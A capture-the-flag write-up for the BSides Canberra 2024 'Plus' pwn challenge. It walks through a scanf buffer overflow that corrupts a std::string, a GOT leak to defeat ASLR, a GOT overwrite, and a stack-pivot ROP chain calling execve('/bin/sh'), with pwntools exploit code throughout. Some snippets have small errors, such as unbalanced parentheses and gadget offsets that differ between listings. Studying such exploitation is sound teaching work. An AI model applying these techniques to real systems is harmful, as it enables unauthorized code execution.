 # Cybears 2024 (Bsides Canberra) Plus Writeup

by adamt

My writeup of the first Pwn challenge for Bsides 24 CTF.

## Challenge Description

Straight away, running the binary we get told this is a C++ challenge involving the different string types (char* vs std::string).

I'm pretty bad at reversing C++, but from what i can tell:
1. In the main function, a std::string object on the stack is initialized to "std::string".
2. The binary calls into a function `vuln` and passes this object as an argument.
3. Within `vuln()`, a C string is initialized on the stack, and `c-string` is strcpy'ed into it.
4. The program then allows a user to enter an arbitrary number of characters into this string via `scanf`. This is the main vulnerability in this challenge.
5. The program then prints out "Please enter a ", followed by the argument string containing "std::string"
  * I have a feeling this will be a leak of some sort, why would they write it this way??
5. After this, the user is prompted for a non-overflowable input via std::cin into the passed-in std::string object.

Protections wise, the binary has No PIE enabled, which should make things a bit easier.

## Thoughts

Ok so we know the vulnerability is probably an overflow in the `scanf` call into our C string.

The first thing I notice when trying to fuzz input into the binary is around 112 characters.

```
$ pwn cyclic 111 | ./plus
Please enter a C string:
Please enter a std::string:
Your strings are:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaa

$ pwn cyclic 112 | ./plus
Please enter a C string:
Please enter a /7��
                   :
Your strings are:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab
```

Notice the "std::string" has been replaced with random bytes! It's pretty obvious we are somehow overwriting the std::string object initialized within the main function.

Doing a bit of research into how a std::string is represented on the stack, I learn that depending on the size of the string, the contents may be either locally allocated on the stack or the heap. Regardless, the overall layout of a std::string is

```
+-----------------+
| Pointer         |  // Pointer to character data
+-----------------+
| Size            |  // e.g., 5 for "Hello"
+-----------------+
| Capacity        |  // e.g., 15 (or more)
+-----------------+
```

So if my understanding is correct, we are likely overwriting the pointer slightly (with a NULL byte) when sending exactly 100 bytes. This will give for a pretty simply read and write primitive.

### Read Primitive

Given we can overwrite the pointer and size of a std::string object, and this same object is printed to the user, we can use this to leak any value in memory. I will use this primitive to defeat ASLR and find an address in LIBC.

This little concept script will do this for us.

```
p = process("./plus")
payload = fit({112: p.elf.got['__isoc99_scanf'], 120: p64(0x8)})
p.sendlineafter(b'string', (payload)
p.recvuntil(b'enter a ')
leak = u64(p.recvuntil(b':', drop=True)
log.info("Leaked 0x%x", hex(leak))
```

Trying it out, and we successfully leak what looks like a LIBC address

```
$ python3 script.py
...
[*] leaked 0x74793965fe00
```

The challenge provided a libc that we can then use to pivot to any other libc addresses.

### Write Primitive

We can take advantage of the fact that the program reads into the same std::string object. We can't make it point somewhere new, but since it already points into LIBC, we can now overwrite a GOT address to anything, allowing us to control code execution.

The program calls `exit` at the end, exit appears directly after scanf in the GOT, so by leaking scanf, we can trivially overwrite exit after 8 bytes in the second payload.

## Turning this write primitive into a shell

My first attempt here was to use a `one_gadget` as we only control one gadget. This didn't work because
* The stack is not alligned to 16 bytes and I only have one gadget to control
* The one gadgets in the target LIBC have a lot of preconditions that I probably won't be able to set.

After this failed, my only option is to stack-pivot into a full ROP chain, and call system or execve. I decided to call execve because I hate myself.

Calling execve requires setting a minimum of 3 registers
* RDI -> /bin/sh
* RSI and RDX 0

Our current payload is not on the stack though, and finding a stack-pivot gadget to pivot to the GOT might be non-trivial. **But wait, our previous input into the program is on the stack!**

We can re-use the initial payload to insert of rop-chain into the stack, and then in our second payload, we can force a stack pivot down to where our first buffer begins. Some debugging in GDB shows this is 24 bytes into the stack, our stack-pivot needs to only pop 3 things of the stack.

I quickly find a `pop r13; pop r14; pop r15; ret` gadget, which redirects RSP to point to the beginning of our initial payload.

At this point our payload will look like.


```
payload1 = fit({
    0: rop_chain,
    # Overwrite Pointer of std::string to GOT
    112: elf.got['__isoc99_scanf'],
    # Overwrite size of std::string to 8
    120: p64(0x8),
})

triplepopgadget = p64(libc.address+0x000000000002a3e5)
# Overwrite exit GOT to `pop;pop;pop;ret` stack pivot.
payload2 = cyclic(8) + triplepopgadget
```

### Building a ROP Chain

One issue with this approach so far is our initial payload needs to contain the ROP chain, but it happens before we get a LIBC leak. The binary won't have good gadgets for us, we need to use LIBC gadgets.

We will take advantage of the way the PLT/GOT works to solve this. In our initial payload, we can put PLT function calls as our gadgets, which we can then force-overwrite when controlling the GOT in our second payload. With this our payload becomes

```
# 0x402350 is the PLT of the first GOT address we control, and so on.
payload1 = fit({
    # We will replace this with a pop RDI gadget.
    0: p64(0x402350), 
    # The GOT for scanf will point to /bin/sh in our second payload.
    8: elf.got['__isoc99_scanf'], # pop /bin/sh into RDI

    # We will replace this with a pop RDX gadget.
    16: p64(0x402350+16), # Second ROP gadget, the next PLT call
    24: p64(0), # pop zero into rdx

    32: p64(0x402350+32), # Will replace with address of execve 

    # Overwrite Pointer of std::string to GOT
    112: elf.got['__isoc99_scanf'],
    # Overwrite size of std::string to 8
    120: p64(0x8),
})

# pop;pop;pop;ret
triplepopgadget = p64(libc.address+0x000000000002a3e0)
# pop rdi; ret;
poprdi = p64(libc.address+0x000000000002a3e5)
# pop rdx; ret 6;
poprdx = p64(libc.address+0x0000000000170337) 

# Overwrite exit GOT to `pop;pop;pop;ret` stack pivot.
payload2 = fit({
    # Overwrite scanf GOT with /bin/sh.
    0: b'/bin/sh\x00',

    # Overwrite exit GOT with stack pivot
    8: triplepopgadget,

    # Overwrite subsequent GOT after exit to our gadgets.
    16: poprdi,
    24: poprdx,
    32: libc.symbols['execve'],
})
```

And we get out shell
